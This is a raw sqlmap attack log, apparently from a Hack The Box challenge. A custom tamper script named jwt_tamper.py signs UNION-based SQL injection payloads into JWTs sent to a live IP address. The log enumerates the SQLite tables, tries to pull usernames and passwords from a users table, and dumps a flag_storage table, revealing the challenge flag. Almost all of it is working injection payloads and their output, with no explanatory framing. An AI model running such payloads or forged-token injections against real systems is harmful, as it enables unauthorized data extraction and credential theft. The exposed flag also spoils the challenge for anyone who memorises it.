[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(COUNT(*) AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_sequence-- KnvL
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(name AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(seq AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_sequence-- vXMq
Database: SQLite_masterdb
Table: sqlite_sequence
[1 entry]
+-----+--------------+
| seq | name         |
+-----+--------------+
| 1   | flag_storage |
+-----+--------------+

[14:29:18] [INFO] table 'SQLite_masterdb.sqlite_sequence' dumped to CSV file '/home/vscode/.local/share/sqlmap/output/178.128.46.168/dump/SQLite_masterdb/sqlite_sequence.csv'
[14:29:18] [INFO] fetching columns for table 'users' in database 'SQLite_masterdb'
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,MIN(CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(sql AS TEXT),CAST(X'20' AS TEXT)))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_master WHERE tbl_name=CAST(X'7573657273' AS TEXT)-- QEgf
[14:29:18] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(COUNT(*) AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM users-- rndl
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(255 AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(PRIMARY AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(id AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(password AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(username AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM users LIMIT 0,1),NULL-- zmjY
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(255 AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(PRIMARY AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(id AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(password AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(username AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM users LIMIT 1,1),NULL-- Hhil
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(255 AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(PRIMARY AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(id AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(password AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(username AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM users-- bGYt
[14:29:18] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[14:29:18] [WARNING] unable to retrieve the entries for table 'users' in database 'SQLite_masterdb'
[14:29:18] [INFO] fetching columns for table 'flag_storage' in database 'SQLite_masterdb'
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,MIN(CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(sql AS TEXT),CAST(X'20' AS TEXT)))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_master WHERE tbl_name=CAST(X'666c61675f73746f72616765' AS TEXT)-- Jyfb
[14:29:18] [INFO] fetching entries for table 'flag_storage' in database 'SQLite_masterdb'
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(COUNT(*) AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM flag_storage-- QlEZ
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(id AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(top_secret_flaag AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM flag_storage-- JwwZ
Database: SQLite_masterdb
Table: flag_storage
[1 entry]
+----+---------------------------------+
| id | top_secret_flaag                |
+----+---------------------------------+
| 1  | HTB{d0n7_3xp053_y0ur_publ1ck3y} |
+----+---------------------------------+

[14:29:18] [INFO] table 'SQLite_masterdb.flag_storage' dumped to CSV file '/home/vscode/.local/share/sqlmap/output/178.128.46.168/dump/SQLite_masterdb/flag_storage.csv'
[14:29:18] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 4 times
[14:29:18] [INFO] fetched data logged to text files under '/home/vscode/.local/share/sqlmap/output/178.128.46.168'

[*] ending @ 14:29:18 /2021-01-06/
```